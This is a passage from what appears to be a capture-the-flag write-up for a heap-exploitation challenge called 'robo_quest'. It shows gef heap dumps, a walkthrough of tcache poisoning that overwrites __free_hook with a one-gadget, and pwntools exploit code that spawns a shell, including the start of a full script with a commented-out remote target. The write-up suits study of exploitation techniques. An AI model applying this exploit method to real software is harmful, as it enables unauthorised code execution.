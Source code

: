 ```
0x564dac56e7e0: 0x0000000000000000      0x0000564dac56e010
0x564dac56e7f0: 0x3232323232323232      0x3232323232323232
0x564dac56e800: 0x3232323232323232      0x3232323232323232
0x564dac56e810: 0x3232323232323232      0x0000000000000041
0x564dac56e820: 0x0000564dac56e860      0x0000564dac56e010
0x564dac56e830: 0x3333333333333333      0x3333333333333333
gef➤
```
In the heap portrayed above, I can then create a new chunk that overflows into the freed chunk, maintains the existing size, and overwrites the fd pointer located at 0x564dac56e820 with the address of the free hook. Once that fd pointer is edited, the program thinks there is a free chunk where the free hook is.
```
gef➤  heap bins
─────────────────────────────────────────────── Tcachebins for thread 1 ───────────────────────────────────────────────
Tcachebins[idx=2, size=0x40] count=1  ←  Chunk(addr=0x7fd34a7e48e8, size=0x0, flags=)
Tcachebins[idx=8, size=0xa0] count=7  ←  Chunk(addr=0x564dac56e700, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x564dac56e660, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x564dac56e5c0, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x564dac56e520, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x564dac56e480, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x564dac56e3e0, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x564dac56e340, size=0xa0, flags=)
```
Then create two additional questions; the first is an inconsequential write to the heap in order to get the chunk at the free hook next in the queue, the second actually overwrite the free hook with the onegadget. Then all we have to do is remove literally any question in order to trigger a call to free() and get the onegadget to execute.
```
gef➤  x/gx 0x7fd34a7e48e8
0x7fd34a7e48e8 <__free_hook>:   0x00007fd34a446432
```
Here is the bit of the exploit code that we needed to do everything described above:
```
create_question(0x38, b'1' * 0x38) #ID is 3
create_question(0x38, b'2' * 0x38) #ID is 4
create_question(0x38, b'3' * 0x38) #ID is 5
create_question(0x38, b'4' * 0x38) #ID is 6
show_question(3)
modify_question(3, b'z' * 0x38 + b'\x51')
remove_question(4)
remove_question(6)
remove_question(5)
create_question(0x48, b'x' * 0x38 + p64(0x41) + p64(free_hook))
create_question(0x38, b'A' * 0x38)
#This will overwrite the free hook with the onegadget.
create_question(0x38, p64(onegadget))

#This will trigger the free hook and the onegadget and pop a shell.
remove_question(0)
```
Here is the full exploit script:
```
from pwn import *

target = process('./robo_quest')

pid = gdb.attach(target, "\nb *create_question\nb *show_question+172\nb *modify_question+222\nb *remove_question\n set disassembly-flavor intel\ncontinue")

#target = remote('139.59.174.208', 31412)

libc = ELF('.glibc/libc.so.6')
def create_question(size, content):
	print(target.recvuntil(b'4. Remove'))
```